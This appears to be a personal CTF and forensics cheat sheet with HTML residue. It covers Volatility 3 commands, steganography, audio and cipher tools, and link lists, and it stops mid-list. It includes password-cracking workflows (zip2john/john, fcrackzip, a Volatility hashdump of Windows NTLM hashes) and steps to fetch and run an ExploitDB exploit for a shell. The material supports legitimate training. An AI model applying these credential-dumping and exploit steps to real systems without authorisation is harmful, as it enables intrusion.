<a href="https://andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls" target="_blank">https://andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls</a>  

Running Volatility in Kali is pretty straight forward:  
  

--> Note - If you are inside the “volatility3” directory, you would alter these: 

python3 volatility3/vol.py -f MEMORY.DMP windows.malfind.Malfind >Malfind.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.pslist.PsList >PSList.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.pstree.PsTree >PStree.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.registry.userassist.UserAssist >UserAssist.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.handles.Handles >Handles.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.psscan.PsScan >PSscan.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.privileges.Privs >Privileges.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.cmdline.CmdLine >CMDline.txt  

python3 vol.py -f /home/kali/Desktop/memory.raw  windows.bigpools.BigPools >BigPools.txt 

python3 vol.py -f /home/kali/Desktop/memory.raw windows.callbacks.Callbacks >Callbacks.txt 

python3 vol.py -f /home/kali/Desktop/memory.raw windows.callbacks.Callbacks >Callbacks.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.registry.hivescan.HiveScan >HiveScan.txt 

python3 volatility3/vol.py -f MEMORY.DMP windows.registry.hivelist.HiveList >HiveList.txt 

python3 vol.py -f '/home/kali/Desktop/memory.raw' windows.hashdump.Hashdump >/home/kali/Desktop/Hashes.txt 

python vol.py -f /home/kali/Desktop/memory.raw windows.memmap.Memmap >/home/kali/Desktop/MemMap.txt 

python3 vol.py -f '/home/kali/Desktop/m3m0ry_n3v3r_f0rg3tz.raw' windows.filescan.FileScan >/home/kali/Desktop/FileScan.txt  

CAUTION: THIS FILLS DESKTOP w/ files: python3 volatility3/vol.py -f MEMORY.DMP windows.dumpfiles.DumpFiles >DumpFiles.txt  

-It needs to be used with, for example, an offset such as the following, and an output folder:  

(a) python3 vol.py -f '/home/kali/Desktop/mem.raw' -o dump windows.dumpfiles.DumpFiles --virtaddr 0xbd8fb6c02370 

(b) python3 vol.py -f '/home/kali/Desktop/RAM.mem' -o /home/kali/Desktop/dump windows.dumpfiles.DumpFiles --physaddr 0x000000007f08fb58  

[--virtaddr VIRTADDR] [--physaddr PHYSADDR] 
optional arguments: 
  -h, --help           show this help message and exit 
  --pid PID            Process ID to include (all other processes are excluded) 
  --virtaddr VIRTADDR  Dump a single _FILE_OBJECT at this virtual address 
  --physaddr PHYSADDR  Dump a single _FILE_OBJECT at this physical address  

 

   
  
[File Headers/Magic Bytes/File Types/Carving Files]

   
    
[File Headers/Magic Bytes/File Types/Carving Files - Some Resources]

<a href="https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5" target="_blank">https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5</a> 
<a href="https://en.wikipedia.org/wiki/List_of_file_signatures" target="_blank">https://en.wikipedia.org/wiki/List_of_file_signatures</a> 
<a href="https://www.garykessler.net/library/file_sigs.html" target="_blank">https://www.garykessler.net/library/file_sigs.html</a> 
<a href="https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance" target="_blank">https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance</a> 
<a href="https://anilsoni85.blogspot.com/2014/11/basics-of-png-file-format-with-libpng.html" target="_blank">https://anilsoni85.blogspot.com/2014/11/basics-of-png-file-format-with-libpng.html</a> 
<a href="https://asecuritysite.com/forensics/png?file=%2Flog%2Fbasn0g01.png" target="_blank">https://asecuritysite.com/forensics/png?file=%2Flog%2Fbasn0g01.png</a> 
<a href="https://www.red-gate.com/simple-talk/blogs/anatomy-of-a-net-assembly-pe-headers" target="_blank">https://www.red-gate.com/simple-talk/blogs/anatomy-of-a-net-assembly-pe-headers</a> 
<a href="https://www.youtube.com/watch?v=-8f8avZ2V7s&t=614s" target="_blank">https://www.youtube.com/watch?v=-8f8avZ2V7s&t=614s</a>  

 

   
  
[Stego]

   
    
[Stego - Some Resources]

<a href="https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography" target="_blank">https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography</a> 
<a href="https://www.kali.org/tools/steghide" target="_blank">https://www.kali.org/tools/steghide</a> 
<a href="https://steghide.sourceforge.net" target="_blank">https://steghide.sourceforge.net</a> 
<a href="https://www.geeksforgeeks.org/how-to-install-steghide-tool-in-linux" target="_blank">https://www.geeksforgeeks.org/how-to-install-steghide-tool-in-linux</a> 
<a href="https://stegonline.georgeom.net/upload" target="_blank">https://stegonline.georgeom.net/upload</a> 
<a href="http://magiceye.ecksdee.co.uk" target="_blank">http://magiceye.ecksdee.co.uk</a> 
<a href="https://manytools.org/hacker-tools/steganography-encode-text-into-image" target="_blank">https://manytools.org/hacker-tools/steganography-encode-text-into-image</a> 
<a href="https://www.mobilefish.com/services/steganography/steganography.php" target="_blank">https://www.mobilefish.com/services/steganography/steganography.php</a> 
<a href="http://stylesuxx.github.io/steganography" target="_blank">http://stylesuxx.github.io/steganography</a> 
<a href="https://futureboy.us/stegano" target="_blank">https://futureboy.us/stegano</a> 
<a href="https://neatnik.net/steganographr" target="_blank">https://neatnik.net/steganographr</a> 
<a href="https://wiki.bi0s.in/steganography/zsteg" target="_blank">https://wiki.bi0s.in/steganography/zsteg</a> 
<a href="https://github.com/zed-0xff/zsteg" target="_blank">https://github.com/zed-0xff/zsteg</a> 
<a href="https://github.com/ragibson/Steganography#WavSteg" target="_blank">https://github.com/ragibson/Steganography#WavSteg</a> 
<a href="https://github.com/ragibson/Steganography#lsbsteg" target="_blank">https://github.com/ragibson/Steganography#lsbsteg</a> 
<a href="https://github.com/ragibson/Steganography#stegdetect" target="_blank">https://github.com/ragibson/Steganography#stegdetect</a> 
<a href="https://github.com/pavanchhatpar/wav-steg-py" target="_blank">https://github.com/pavanchhatpar/wav-steg-py</a> 
<a href="https://0xrick.github.io/lists/stego" target="_blank">https://0xrick.github.io/lists/stego</a> 
<a href="https://www.linuxlinks.com/wavsteg-uses-least-significant-bit-steganography" target="_blank">https://www.linuxlinks.com/wavsteg-uses-least-significant-bit-steganography</a> 
<a href="https://www.abc.se/~re/Coagula/Coagula.html" target="_blank">https://www.abc.se/~re/Coagula/Coagula.html</a> 
<a href="https://www.stenge.info/post/steganography" target="_blank">https://www.stenge.info/post/steganography</a> 
<a href="https://cheatography.com/aleksandrm/cheat-sheets/coagula-cheat-sheet" target="_blank">https://cheatography.com/aleksandrm/cheat-sheets/coagula-cheat-sheet</a> 
<a href="https://github.com/zardus/ctf-tools/blob/master/stegsolve/install" target="_blank">https://github.com/zardus/ctf-tools/blob/master/stegsolve/install</a> 
<a href="http://www.caesum.com/handbook/Stegsolve.jar" target="_blank">http://www.caesum.com/handbook/Stegsolve.jar</a> 
<a href="https://www.hanynet.com/isteg" target="_blank">https://www.hanynet.com/isteg</a> 
<a href="https://github.com/rafiibrahim8/iSteg" target="_blank">https://github.com/rafiibrahim8/iSteg</a>  

   
    
[Stego - iSteg]

<a href="https://github.com/rafiibrahim8/iSteg" target="_blank">https://github.com/rafiibrahim8/iSteg</a>  
1. Navigated to: <a href="https://github.com/rafiibrahim8/iSteg/releases/tag/v2.1" target="_blank"> https://github.com/rafiibrahim8/iSteg/releases/tag/v2.1.</a> 
2. Downloaded the file: iSteg-v2.1_GUI.jar. 
3. Ran chmod +x on the download file to give it executable permissions. 
└─# chmod +x iSteg-v2.1_GUI.jar 
4. Launched the program in Java: 
└─# java -jar iSteg-v2.1_GUI.jar  
  
5. Chose the hidden.png file and it opened to the flag, flag{YouFoundMe}:  
  

   
    
[Stego - StegSolve]

<a href="https://github.com/zardus/ctf-tools/blob/master/stegsolve/install" target="_blank">https://github.com/zardus/ctf-tools/blob/master/stegsolve/install</a> 
<a href="http://www.caesum.com/handbook/Stegsolve.jar" target="_blank">http://www.caesum.com/handbook/Stegsolve.jar</a> 
1. wget http://www.caesum.com/handbook/Stegsolve.jar -O stegsolve.jar 
2. chmod +x stegsolve.jar 
3. Run by typing: java –jar stegsolve.jar (make sure you’re in the same directory) 
4. Choose “File” --> Open and load your picture:  
  

 

   
  
[Photo Editors/Photo Forensics]

   
    
[Photo Editors/Photo Forensics - Some Resources]

<a href="https://www.photopea.com" target="_blank">https://www.photopea.com</a> 
<a href="https://29a.ch/photo-forensics/#forensic-magnifier" target="_blank">https://29a.ch/photo-forensics/#forensic-magnifier</a>  

 

   
  
[OCR - Google Image Search Offers OCR]

   
    
[OCR - Google Image Search Offers OC - Some Resources]

<a href="https://www.google.com/imghp?hl=en&tab=ri&ogbl" target="_blank">https://www.google.com/imghp?hl=en&tab=ri&ogbl</a>  

 

   
  
[Audio]

   
    
[Audio - Decoders/Analyzers - Some Resources]

Note from Dcode regarding T9 vs Multitap Confusion: 
Multitap ABC should not be confused with T9 predictive text. For example,'DCODE' is written '3222666333' in Multitap and '32633' in T9. 
<a href="https://twitter.com/_johnhammond/status/1244277165316857857?lang=en" target="_blank">https://twitter.com/_johnhammond/status/1244277165316857857?lang=en</a>  
  
<a href="https://www.audacityteam.org/download" target="_blank">https://www.audacityteam.org/download</a> 
<a href="https://www.sonicvisualiser.org/download.html" target="_blank">https://www.sonicvisualiser.org/download.html</a> 
<a href="http://dialabc.com/sound/detect/index.html" target="_blank">http://dialabc.com/sound/detect/index.html</a> 
<a href="http://www.polar-electric.com/DTMF/Index.html" target="_blank">http://www.polar-electric.com/DTMF/Index.html"</a> 
<a href="https://forums.radioreference.com/threads/twotonedetect-beta.120010" target="_blank">https://forums.radioreference.com/threads/twotonedetect-beta.120010</a> 
<a href="https://onlinetonegenerator.com/dtmf.html" target="_blank">https://onlinetonegenerator.com/dtmf.html</a> 
<a href="https://www.venea.net/web/dtmf_generator" target="_blank">https://www.venea.net/web/dtmf_generator</a> 
<a href="https://github.com/ribt/dtmf-decoder" target="_blank">https://github.com/ribt/dtmf-decoder</a> 
<a href="https://www.dcode.fr/multitap-abc-cipher" target="_blank">https://www.dcode.fr/multitap-abc-cipher</a> 
<a href="https://www.dcode.fr/t9-cipheraudi" target="_blank">https://www.dcode.fr/t9-cipheraudi</a> 
<a href="https://www.windows7download.com/win7-dtmf-tone-decoder/mgbuqfct.html" target="_blank">https://www.windows7download.com/win7-dtmf-tone-decoder/mgbuqfct.html</a>  
<a href="http://www.windows7download.com/win7-dtmf-tone-decoder/download-mgbuqfct.html" target="_blank">http://www.windows7download.com/win7-dtmf-tone-decoder/download-mgbuqfct.html</a>  
<a href="https://www.windows7download.com/win7-dtmf-tone-decoder/download-mgbuqfct.html" target="_blank">https://www.windows7download.com/win7-dtmf-tone-decoder/download-mgbuqfct.html</a>  
<a href="https://dtmf.netlify.app" target="_blank">https://dtmf.netlify.app</a> 
<a href="https://jpinsoft.net/deepsound/download.aspx" target="_blank">https://jpinsoft.net/deepsound/download.aspx</a> 
<a href="https://www.youtube.com/watch?v=VZbZa99ocPU&ab_channel=mdthib" target="_blank">https://www.youtube.com/watch?v=VZbZa99ocPU&ab_channel=mdthib</a> 
<a href="https://www.youtube.com/watch?v=rAGkm4pv44s" target="_blank">https://www.youtube.com/watch?v=rAGkm4pv44s</a> 
<a href="https://www.aperisolve.com" target="_blank">https://www.aperisolve.com</a> 
<a href="https://www.aperisolve.com/cheatsheet" target="_blank">https://www.aperisolve.com/cheatsheet</a> 
<a href="https://www.dcode.fr/spectral-analysis" target="_blank">https://www.dcode.fr/spectral-analysis</a> 
<a href="https://gqrx.dk" target="_blank">https://gqrx.dk</a>  

   
    
[Audio - Extract Morse Code from an audio file]

<a href="https://morsecode.world/international/decoder/audio-decoder-adaptive.html" target="_blank">https://morsecode.world/international/decoder/audio-decoder-adaptive.html</a> 
<a href="https://databorder.com/transfer/morse-sound-receiver" target="_blank">https://databorder.com/transfer/morse-sound-receiver</a>  

 

   
  
[Large Number/Big Integer/Big Number converter]

   
    
[Large Number/Big Integer/Big Number converter - Some Resources]

<a href="http://www.onedollardata.com/encoder.php" target="_blank">http://www.onedollardata.com/encoder.php</a>  

 

   
  
[Reverse Text/Mirror Text/Backward Text/Upsidedown Text]

   
    
[Reverse Text/Mirror Text/Backward Text/Upsidedown Text - Some Resources]

<a href="https://www.flipyourtext.com" target="_blank">https://www.flipyourtext.com</a>  
  
<a href="https://www.upsidedowntext.com" target="_blank">https://www.upsidedowntext.com</a>  

 

   
  
[Password Cracking]

   
    
[Password Cracking - John the Ripper]

<ul class="c8 lst-kix_list_37-0"><li class="c0 li-bullet-0">John the Ripper</li></ul>

Example #1:

1. zip2john flag.zip &gt; hash (For .rar files, see Rar2John below)

2. john hash --fork=4 --wordlist=/usr/share/john/rockyou.txt



3. Session completed, you can view the password in yellow font: Soldat*13

Example #2:

1. zip2john test.zip &gt; hash

2. john hash --wordlist=/usr/share/john/rockyou.txt



Example #3:

1. zip2john MalDFIR.zip &gt; hash

2. john hash --fork=4 --wordlist=/usr/share/john/rockyou.txt



3. Session completed so to view the cracked passwords, type: john hash --show:



<ul class="c8 lst-kix_list_39-0 start"><li class="c0 li-bullet-0">It doesn&rsquo;t look like the password was cracked this time. &nbsp;To be continued.</li></ul>

Example #4:

1. Backup.zip is password-protected so I had to crack it. JohnTheRipper with rockyou.txt yielded 741852963:



2. Inside backup.zip are two files:



3. Inside index.php was what appeared to be an MD5 password hash 2cb42f8734ea607eefed3b70af13bbd3:



4. I put that hash into CrackStation.net and it yielded: qwerty789



<ul class="c8 lst-kix_list_43-0 start"><li class="c0 li-bullet-0">Rar2John (For .zip files, see Zip2John above)</li></ul><ul class="c8 lst-kix_list_44-0 start"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.doyler.net/security-not-included/crack-rar-files-hashcat&amp;sa=D&amp;source=editors&amp;ust=1699590511428037&amp;usg=AOvVaw040Yvw2oFnIlTW0aQyv5P6">https://www.doyler.net/security-not-included/crack-rar-files-hashcat</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://resources.infosecinstitute.com/topics/hacking/hashcat-tutorial-beginners&amp;sa=D&amp;source=editors&amp;ust=1699590511428451&amp;usg=AOvVaw29-ArbMnIy0YgxLiWDJAXf">https://resources.infosecinstitute.com/topics/hacking/hashcat-tutorial-beginners</a></li></ul>

Example:

1. rar2john encrypted &gt;hash



  

   
    
[Password Cracking - Windows NTLM Hashes

<ul class="c8 lst-kix_list_40-0 start"><li class="c0 li-bullet-0">Cracking Windows NTLM Hashes:</li></ul>

<ol class="c8 lst-kix_list_41-0 start" start="1"><li class="c0 li-bullet-0">Dump the Windows password hashes:</li></ol>
&#9484;&#9472;&#9472;(root&#12927;kali)-[/home/kali/Desktop/volatility3]

&#9492;&#9472;# python3 vol.py -f &#39;/home/kali/Desktop/mem.raw&#39; windows.hashdump.Hashdump &gt;/home/kali/Desktop/Hashes.txt

<ol class="c8 lst-kix_list_41-0" start="2"><li class="c0 li-bullet-0">Paste the NTLM hash into CrackStation.net.</li></ol>

  

   
    
[Password Cracking - FCrackZip (Credit to <a href="https://www.linkedin.com/in/tawon-saetang">Tawon Saetang</a> for introducing me to this tool!]

<ul class="c8 lst-kix_list_37-0"><li class="c0 li-bullet-0">Fcrackzip</li></ul>
If you don&rsquo;t use the &ndash;u switch, FCrackZip will give you a list of possible passwords, but if you use &ndash;u, it&rsquo;s my understanding that the &ndash;u stands for &ldquo;unzip&rdquo; and it takes longer, but if used, will first try to unzip the encrypted file using the possible passwords, and only give you the actual password, if it finds it, instead of a list of possible passwords.

See the two examples compared below, the first example does not use the -u switch:

&#9484;&#9472;&#9472;(root&#12927;kali)-[/home/kali/Desktop/ToCrack]

&#9492;&#9472;# fcrackzip -b --method 2 -D -p /usr/share/john/rockyou.txt /home/kali/Desktop/ToCrack/test.zip



And the following example does use the -u switch, see the difference?

&#9484;&#9472;&#9472;(root&#12927;kali)-[/home/kali/Desktop/ToCrack]

&#9492;&#9472;# fcrackzip -u -D -p /usr/share/john/rockyou.txt /home/kali/Desktop/ToCrack/f0007474_ore.zip


<ul class="c8 lst-kix_list_42-0 start"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.youtube.com/watch?v%3D7f2130_MuZE%26ab_channel%3DMotasemHamdan&amp;sa=D&amp;source=editors&amp;ust=1699590511423827&amp;usg=AOvVaw1nCbkOP8tvOd9SC5YDKk9-">https://www.youtube.com/watch?v=7f2130_MuZE&amp;ab_channel=MotasemHamdan</a></li><li class="c0 li-bullet-0">(5 1/2 minutes in): &nbsp;<a class="c6" href="https://www.google.com/url?q=https://www.youtube.com/watch?v%3D7f2130_MuZE&amp;sa=D&amp;source=editors&amp;ust=1699590511424343&amp;usg=AOvVaw3IC5Zf3A1JaZblwpyhreVK">https://www.youtube.com/watch?v=7f2130_MuZE</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.youtube.com/watch?v%3D4IqarU1Q60s&amp;sa=D&amp;source=editors&amp;ust=1699590511424697&amp;usg=AOvVaw0fgH5Lq5At2T5wAik3K42q">https://www.youtube.com/watch?v=4IqarU1Q60s</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.kali.org/tools/fcrackzip&amp;sa=D&amp;source=editors&amp;ust=1699590511425042&amp;usg=AOvVaw3QK_IjJ9QSc6IQ0pzGFgtj">https://www.kali.org/tools/fcrackzip</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/foreni-packages/fcrackzip&amp;sa=D&amp;source=editors&amp;ust=1699590511425366&amp;usg=AOvVaw1aaAnn9-IZExlf3_ZpMBDI">https://github.com/foreni-packages/fcrackzip</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=http://oldhome.schmorp.de/marc/fcrackzip.html&amp;sa=D&amp;source=editors&amp;ust=1699590511425694&amp;usg=AOvVaw1NfOVPgqD-f60bOUN4bHAC">http://oldhome.schmorp.de/marc/fcrackzip.html</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.geeksforgeeks.org/fcrackzip-tool-crack-a-zip-file-password-in-kali-linux&amp;sa=D&amp;source=editors&amp;ust=1699590511426062&amp;usg=AOvVaw3AY4luncqXGMRVZMWFwynF">https://www.geeksforgeeks.org/fcrackzip-tool-crack-a-zip-file-password-in-kali-linux</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html&amp;sa=D&amp;source=editors&amp;ust=1699590511426415&amp;usg=AOvVaw2bc0wuiLOfsETi4ILy7VvI">https://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.hackingarticles.in/comprehensive-guide-on-fcrackzip-tool&amp;sa=D&amp;source=editors&amp;ust=1699590511426755&amp;usg=AOvVaw03UxfZeRupDEMK2hyIruH0">https://www.hackingarticles.in/comprehensive-guide-on-fcrackzip-tool</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d&amp;sa=D&amp;source=editors&amp;ust=1699590511427132&amp;usg=AOvVaw34lbIrGwI9X_dSYiyw6Tb6">https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.tenorshare.com/windows-tips/how-to-remove-password-from-zip-file-without-any-software.html&amp;sa=D&amp;source=editors&amp;ust=1699590511427561&amp;usg=AOvVaw2h_zw11G14MEvMs0F0V3Go">https://www.tenorshare.com/windows-tips/how-to-remove-password-from-zip-file-without-any-software.html</a></li></ul>

  

   
    
[Password Cracking - Encryption/Cipher/Decode Help]

<ul class="c8 lst-kix_list_47-0 start"><li class="c0 li-bullet-0">Encryption/Cipher/Decode Help:</li></ul><ul class="c8 lst-kix_list_48-0 start"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.geeksforgeeks.org/playfair-cipher-with-examples&amp;sa=D&amp;source=editors&amp;ust=1699590511430066&amp;usg=AOvVaw1oSt4scyWQv9nj9W4BZDAW">https://www.geeksforgeeks.org/playfair-cipher-with-examples</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://gchq.github.io/CyberChef&amp;sa=D&amp;source=editors&amp;ust=1699590511430571&amp;usg=AOvVaw3hW81jWQ-ug-rE5x636iVY">https://gchq.github.io/CyberChef</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.dcode.fr/cipher-identifier&amp;sa=D&amp;source=editors&amp;ust=1699590511430962&amp;usg=AOvVaw262H8rtPFxbCuw8D7BGjA0">https://www.dcode.fr/cipher-identifier</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://quipqiup.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511431270&amp;usg=AOvVaw066M0uie-F5uObhkN7Ggqq">https://quipqiup.com</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=http://rumkin.com/tools/cipher&amp;sa=D&amp;source=editors&amp;ust=1699590511431583&amp;usg=AOvVaw1Bf-IiNqmCm2sd_U-WoWQA">http://rumkin.com/tools/cipher</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.boxentriq.com/code-breaking/playfair-cipher&amp;sa=D&amp;source=editors&amp;ust=1699590511431950&amp;usg=AOvVaw2dNw6DbIRE-djid1gAlUMx">https://www.boxentriq.com/code-breaking/playfair-cipher</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://calcoolator.eu/playfair-cipher-encoder-decoder-&amp;sa=D&amp;source=editors&amp;ust=1699590511432281&amp;usg=AOvVaw1AHUfBCWnKNESuvgec0Mjn">https://calcoolator.eu/playfair-cipher-encoder-decoder-</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://cryptii.com/pipes/bacon-cipher&amp;sa=D&amp;source=editors&amp;ust=1699590511432602&amp;usg=AOvVaw08ab-tvsW1HGc2vEMQZ3Pf">https://cryptii.com/pipes/bacon-cipher</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://mothereff.in/bacon&amp;sa=D&amp;source=editors&amp;ust=1699590511433166&amp;usg=AOvVaw3hdg_BiteHpUsgGhVyKATf">https://mothereff.in/bacon</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.rapidtables.com/web/tools/index.html&amp;sa=D&amp;source=editors&amp;ust=1699590511433562&amp;usg=AOvVaw2tDZ7rCKNkkhuk4q20oLtu">https://www.rapidtables.com/web/tools/index.html</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://toolbox.googleapps.com/apps/encode_decode&amp;sa=D&amp;source=editors&amp;ust=1699590511433922&amp;usg=AOvVaw0BjL9kUozigCg3Nk1yl9Pp">https://toolbox.googleapps.com/apps/encode_decode</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=http://www.caesum.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511434246&amp;usg=AOvVaw0LSIb0Pwj2aawzg0-VHyx8">http://www.caesum.com</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://wiremask.eu/tools/xor-cracker&amp;sa=D&amp;source=editors&amp;ust=1699590511434655&amp;usg=AOvVaw1FGOdULbA5f4xxLUorAX5u">https://wiremask.eu/tools/xor-cracker</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.browserling.com/tools/xor-decrypt&amp;sa=D&amp;source=editors&amp;ust=1699590511435011&amp;usg=AOvVaw1uwL2Qut-gsDlcmsP9IMBj">https://www.browserling.com/tools/xor-decrypt</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://onlinecryptotools.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511435373&amp;usg=AOvVaw2qirByWVC_dtszu8O6dZGa">https://onlinecryptotools.com</a></li><li class="c0 li-bullet-0">Web Token Decoder: <a class="c6" href="https://www.google.com/url?q=https://jwt.io/&amp;sa=D&amp;source=editors&amp;ust=1699590511435745&amp;usg=AOvVaw22SUlCCCHD4MQYyUphQ8Ne">https://JWT.io</a></li></ul>

Credit to <a href="https://noahheckman.carrd.co">Noah Heckman at BHIS</a> for the below clue using this as an example: p!hh3b_1b_o_nkf0

Underscores can be indicative of a flag. &nbsp;Also, not a lot of encryptions will use an underscore, so when you see those, you pretty much know it&rsquo;s going to be encoding in play. &nbsp;And furthermore, you could even pretty much guess that a single digit denotes an &ldquo;a&rdquo; or an &ldquo;i&rdquo; if in fact the string is going to be decoded into English. &nbsp;Cryptographic Analysis can come in handy here using linguistics such as frequency analysis like common two-letter words, frequency of letters, etc.

 

   
    
[Password Cracking - Hash Reversing/Hash Decoders]

<ul class="c8 lst-kix_list_47-0"><li class="c0 li-bullet-0">Hash Reversing/Hash Decoders:</li></ul><ul class="c8 lst-kix_list_49-0 start"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://crackstation.net/&amp;sa=D&amp;source=editors&amp;ust=1699590511436372&amp;usg=AOvVaw17vd0wNCZ5_Jw2qzk9cTi2">https://crackstation.net</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://md5hashing.net/hash&amp;sa=D&amp;source=editors&amp;ust=1699590511436762&amp;usg=AOvVaw10nE8Di2iHllzOKSenRToh">https://md5hashing.net/hash</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://hashtoolkit.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511437083&amp;usg=AOvVaw1OUlj_JJjvdZf8VnDGS7jL">https://hashtoolkit.com</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://md5.gromweb.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511437408&amp;usg=AOvVaw1DXyJZLnx8kYkqUgtnj7iG">https://md5.gromweb.com</a></li></ul>

 

   
  
[PDF Analysis]

   
    
[PDF Analysis - PDF Editors]

<a href="https://www.sejda.com/pdf-editor" target="_blank">https://www.sejda.com/pdf-editor</a>  

   
    
[PDF Analysis - thunar and atril]

The thunar and atril commands appear to yield the same result, each opening-up the Atril PDF Reader.  
thunar Command:  
  
atril Command:  
  
atril PDF Viewer:  
  

 
  

[Misc.]

<ul>
  <li><B>Bubble Sort:</B></li>
<ul class="c8 lst-kix_list_93-0 start"><li class="c0 c5 li-bullet-0">In the off-chance that you come across a challenge which uses Bubble Sort, I found this to be a good guide:</li>
<a href="https://linuxhint.com/bubble-sort-algorithm" target="_blank">https://linuxhint.com/bubble-sort-algorithm</a>  
</ul>
  

<ul>
  <li><B>Split Screen Terminal Emulator - tmux:</B></li>
<ul class="c8 lst-kix_list_93-0 start"><li class="c0 c5 li-bullet-0">The folowing resources were useful to me around tmux:</li>
<a href="https://www.youtube.com/watch?v=Lqehvpe_djs" target="_blank">https://www.youtube.com/watch?v=Lqehvpe_djs</a> 
<a href="https://medium.com/@jeongwhanchoi/install-tmux-on-osx-and-basics-commands-for-beginners-be22520fd95e" target="_blank">https://medium.com/@jeongwhanchoi/install-tmux-on-osx-and-basics-commands-for-beginners-be22520fd95e</a>  
</ul>

<ul>
  <li><B>RHOST vs. LHOST:</B></li>
<ul class="c8 lst-kix_list_93-0 start"><li class="c0 c5 li-bullet-0">I found these helpful for RHOST vs. LHOST and Port 4444 vs. Port 5555 in case anyone else finds it useful:</li>
<a href="https://github.com/rapid7/metasploit-framework/issues/6505" target="_blank">https://github.com/rapid7/metasploit-framework/issues/6505</a> 
<a href="https://www.reddit.com/r/metasploit/comments/sz5oly/the_meaning_of_lhost_and_rhost" target="_blank">https://www.reddit.com/r/metasploit/comments/sz5oly/the_meaning_of_lhost_and_rhost</a>  
</ul>

<ul>
  <li><B>SearchSploit:</B></li>
<ul class="c8 lst-kix_list_93-0 start"><li class="c0 c5 li-bullet-0">SearchSploit is a tool which can be used to search the exploits listed on ExploitDB.</li><li class="c0 c5 li-bullet-0">First, you can search for the item that you are researching:</li></ul>


<ul class="c8 lst-kix_list_94-0 start"><li class="c0 c5 li-bullet-0">After your initial SearchSploit query, you can pick from the results and choose to dig a bit further by using the &ldquo;x&rdquo; (Examine) switch. Below is an unrelated example:</li></ul>
Searchsploit &ndash;x 49933.py


<ul class="c8 lst-kix_list_95-0 start"><li class="c0 c5 li-bullet-0">Next, we can use the &ldquo;m&rdquo; switch to Mirror it:</li></ul>
Searchsploit &ndash;m 49933.py



<ul class="c8 lst-kix_list_96-0 start"><li class="c0 c5 li-bullet-0">A file named 49933.py will be dropped into your working directory, which is basically that exploit.</li></ul>


<ul class="c8 lst-kix_list_97-0 start"><li class="c0 c5 li-bullet-0">Now, let&#39;s run that Python file that was just dropped.</li><li class="c0 c5 li-bullet-0">You will be prompted for the host URL, and then if you&rsquo;re lucky, you&rsquo;ll get a shell:</li></ul>
python3 49933.py



</li></ul>

</li>
</ul>
<ul>
  <li><B>GitDumper</B></li>
